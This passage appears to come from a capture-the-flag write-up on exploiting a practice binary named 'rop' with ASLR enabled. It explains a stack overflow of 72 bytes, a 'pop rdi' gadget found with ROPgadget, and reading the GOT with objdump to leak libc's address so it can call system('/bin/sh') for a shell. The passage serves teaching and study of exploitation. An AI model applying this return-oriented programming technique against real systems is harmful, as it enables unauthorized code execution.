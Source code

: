 What is more this challenge requires the ASLR to be enabled so here it is:

```txt
# cat /proc/sys/kernel/randomize_va_space 
2

# ldd rop
	linux-vdso.so.1 (0x00007ffcc53be000)
	libc.so.6 => /lib64/libc.so.6 (0x00007f968c313000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f968c4fe000)
# ldd rop
	linux-vdso.so.1 (0x00007ffcfe735000)
	libc.so.6 => /lib64/libc.so.6 (0x00007fe626b3e000)
	/lib64/ld-linux-x86-64.so.2 (0x00007fe626d29000)
```

To spawn a shell, I will call system("/bin/sh"). 
To call system("/bin/sh") following steps are required:
* overwrite 72 bytes
* overwrite return address with rop_gadget
* place address to "/bin/sh" string on the stack
* place system address on the stack
* place exit address on the stack

In order to pass "/bin/sh" string to system, the string address must be placed in rdi. The "/bin/sh" string address will be stored on stack so we have to pop it.
Let's use ROPgadget:

```txt
# ROPgadget --binary ./rop | grep "pop rdi"
0x0000000000400613 : pop rdi ; ret
```

This is exactly what we need.

Since ALSR is on, the libc address will be different each time the program is started. This means that the address of the system function and the "/bin/sh" string will be different.
So our first task is to gain current libc address.

## Leaking the libc address

The program uses write function from libc and we also use this function to leak the libc address.

write offset in GOT table:

```txt
# objdump -R rop

rop:     file format elf64-x86-64

DYNAMIC RELOCATION RECORDS
OFFSET           TYPE              VALUE 
0000000000600ff0 R_X86_64_GLOB_DAT  __libc_start_main@GLIBC_2.2.5
0000000000600ff8 R_X86_64_GLOB_DAT  __gmon_start__
0000000000601018 R_X86_64_JUMP_SLOT  write@GLIBC_2.2.5
0000000000601020 R_X86_64_JUMP_SLOT  read@GLIBC_2.2.5
```

